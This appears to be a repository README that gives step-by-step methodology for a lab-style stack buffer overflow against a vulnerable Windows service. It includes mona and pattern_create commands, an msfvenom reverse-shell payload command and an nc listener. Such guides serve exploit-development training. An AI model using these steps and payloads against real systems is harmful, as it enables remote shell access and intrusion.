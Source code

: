 # Buffer Overflow Steps

I'll improve these instructions soon.

1. Setup target ip and port in config.py

2. Setup your ip and a port you will be listening on 

## Fuzzing

3. Run vulnerable service in immunity (with mona.py installed)

4. Run `python fuzzer.py`

5. Note the last bytes fuzzed before crashing

6. Type `!mona config -set workingfolder c:\mona\%p` into immunity

## First Payload

7. Run pattern_create with the offset from step 5 + 400. 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes from step 5 + 400>`

8. Place this pattern in the config retn. Set payload_ready to false

9. Re-run the vulnerable service

10. Run `python exploit.py`

11. `!mona findmsp -distance <bytes+400>` 

12. Find "EIP contains... " (offset xxxx) and modify the config offset to contain this new offset value.

## EIP Control Confirmation

13. Set retn to "BBBB"

14. Re-run service, re-run exploit

15. Confirm that EIP is 0x42424242. If not, there's a problem

## Bad Char Removal

16. `!mona bytearray -b "\x00"`

17. Run `python badchars.py`

18. Set config buf to the text printed out by badchars

19. Re-run service, re-run exploit

20. Fill in the ESP address in the following: `!mona compare -f c:\mona\<filename>\bytearray.bin -a <esp>` 

21. Read the bad bytes that mona throws back. Place them in config badchars. Repeat steps 16 to 20 until there are no more bad bytes. Adjust bytes in step 16 as well. 

## The Exploit

22. `!mona jmp -r esp -cpb "<badbytes>"`

23. Choose an address of `jmp esp` given in the log, set it as config retn

24. `msfvenom -p windows/shell_reverse_tcp LHOST=<yourip> LPORT=<yourport> EXITFUNC=thread -b "<badbytes>" -f py -o payload.py`

25. Set config payload_ready to true

26. `nc -nvlp 4444`

27. Re-run service, re-run exploit. 
